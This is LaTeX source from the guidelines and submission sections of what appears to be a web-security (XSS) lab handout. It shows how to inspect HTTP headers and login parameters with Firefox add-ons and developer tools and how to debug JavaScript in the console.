\label{xss:sec:guidelines}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\newcommand{\devtoolFigs}{../Web_Common/Figs}


% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Using the \texttt{"HTTP Header Live"} add-on to Inspect HTTP Headers}
\label{web:sec:httpheaderlive}


The version of Firefox (version 60) in our Ubuntu 16.04 VM does not support the
\texttt{LiveHTTPHeader} add-on, which was used in our Ubuntu 12.04 VM. 
A new add-on called \texttt{"HTTP Header Live"} is used in its place. 
The instruction on how to enable and use this add-on tool
is depicted in Figure~\ref{web:fig:httpheader}. Just click the icon marked
by \ding{192}; a sidebar will show up on the left. Make sure that
\texttt{HTTP Header Live} is selected at position \ding{193}. Then click
any link inside a web page, all the triggered HTTP requests will be
captured and displayed inside the sidebar area marked by \ding{194}.
If you click on any HTTP request, a pop-up window will show up to display
the selected HTTP request. Unfortunately, there is a bug in this add-on
tool (it is still under development); nothing will show up inside the
pop-up window unless you change its size~(It seems that re-drawing
is not automatically triggered when the window pops up, but changing its
size will trigger the re-drawing).


\begin{figure}[htb]
\begin{center}

\includegraphics[width=0.85\textwidth]{\devtoolFigs/HTTPHeaderLive.pdf}
\end{center}
\caption{Enable the HTTP Header Live Add-on}
\label{web:fig:httpheader}
\end{figure}




% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Using the Web Developer Tool to Inspect HTTP Headers}
\label{web:sec:web_dev_tools}


There is
another tool provided by Firefox that can be quite useful 
in inspecting HTTP headers. 
The tool is the Web Developer Network Tool.  In this
section, we cover some of the important features of the tool. 
The Web Developer Network Tool can be enabled via the following navigation: 


\begin{lstlisting}
Click Firefox's top right menu --> Web Developer --> Network
 or 
Click the "Tools" menu --> Web Developer --> Network 
\end{lstlisting}


We use the user login page in Elgg as an example. 
Figure~\ref{fig:webdevtools_01_request} shows the Network Tool showing the HTTP POST request
that was used for login.

\begin{figure}[htb]
\begin{center}

\includegraphics[width=0.8\textwidth]{\devtoolFigs/webdevtools_01_request.png}
\end{center}
\caption{HTTP Request in Web Developer Network Tool}
\label{fig:webdevtools_01_request}
\end{figure}

To further see the details of the request, we can click on a particular HTTP request and the
tool will show the information in two panes (see Figure~\ref{fig:webdevtools_02_two_panes}). 

\begin{figure}[htb]
\begin{center}
	
\includegraphics[width=0.95\textwidth]{\devtoolFigs/webdevtools_02_two_panes.png}
\end{center}
\caption{HTTP Request and Request Details in Two Panes}
\label{fig:webdevtools_02_two_panes}
\end{figure}



The details of the selected request will be visible in the right pane.
Figure~\ref{fig:webdevtools_03_post_headers} shows the details of the login request in the
\texttt{Headers} tab (details include URL, request method, and cookie). One can observe both
request and response headers in the right pane. To check the parameters involved in an HTTP
request, we can use the \texttt{Params} tab. Figure~\ref{fig:webdevtools_03_post_params} shows
the parameter sent in the login request to Elgg, including \texttt{username} and
\texttt{password}. The tool can be used to inspect HTTP GET requests in a similar manner to HTTP POST requests.

\begin{figure}[htb]
 \centering
 \subfigure[HTTP Request Headers]{
        
\includegraphics[width=0.6\textwidth]{\devtoolFigs/webdevtools_03-1.png}
        \label{fig:webdevtools_03_post_headers}
 }
 \subfigure[HTTP Request Parameters]{
        
\includegraphics[width=0.35\textwidth]{\devtoolFigs/webdevtools_03-2.png}
        \label{fig:webdevtools_03_post_params}
 }
 \caption{HTTP Headers and Parameters}
\end{figure}


\paragraph{Font Size.} The default font size of Web Developer Tools window is quite small. It
can be increased by focusing click anywhere in the Network Tool window, and then using
\texttt{Ctrl} and \texttt{+} button.


% -------------------------------------------
% SUBSECTION
% -------------------------------------------
\subsection{JavaScript Debugging}
\label{web:sec:jsdebugging}

We may also need to debug our JavaScript code. Firefox's Developer Tool can also help debug
JavaScript code. It can point us to the precise places where errors occur. The following
instruction shows how to enable this debugging tool:

\begin{lstlisting}
 Click the "Tools" menu --> Web Developer --> Web Console
 or use the Shift+Ctrl+K shortcut.
\end{lstlisting}


Once we are in the web console, click the {\tt JS} tab. Click the downward pointing arrowhead
beside {\tt JS} and ensure there is a check mark beside {\tt Error}. If you are also interested
in Warning messages, click {\tt Warning}. See Figure~\ref{devtool:fig:errocheckmark}.


\begin{figure}[htb]
\begin{center}
  
\includegraphics[width=0.4\textwidth]{\devtoolFigs/errorCheckMark.png}
\end{center}
\caption{Debugging JavaScript Code (1)}
\label{devtool:fig:errocheckmark}
\end{figure}
 

If there are any errors in the code, a message will display in the console. The line that
caused the error appears on the right side of the error message in the console. Click on the
line number and you will be taken to the exact place that has the error.
See Figure~\ref{devtool:fig:console}.


\begin{figure}[htb]
\begin{center}
  
\includegraphics[width=1.0\textwidth]{\devtoolFigs/consoleError2.png}
\end{center}
\caption{Debugging JavaScript Code (2)}
\label{devtool:fig:console}
\end{figure}
 




 

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%



% *******************************************
% SECTION
% ******************************************* 
\section{Submission}


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

You need to submit a detailed lab report, with screenshots,
to describe what you have done and what you have observed.
You also need to provide explanation
to the observations that are interesting or surprising.
Please also list the important code snippets followed by
explanation. Simply attaching code without any explanation will not
receive credits.

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%


\end{document}
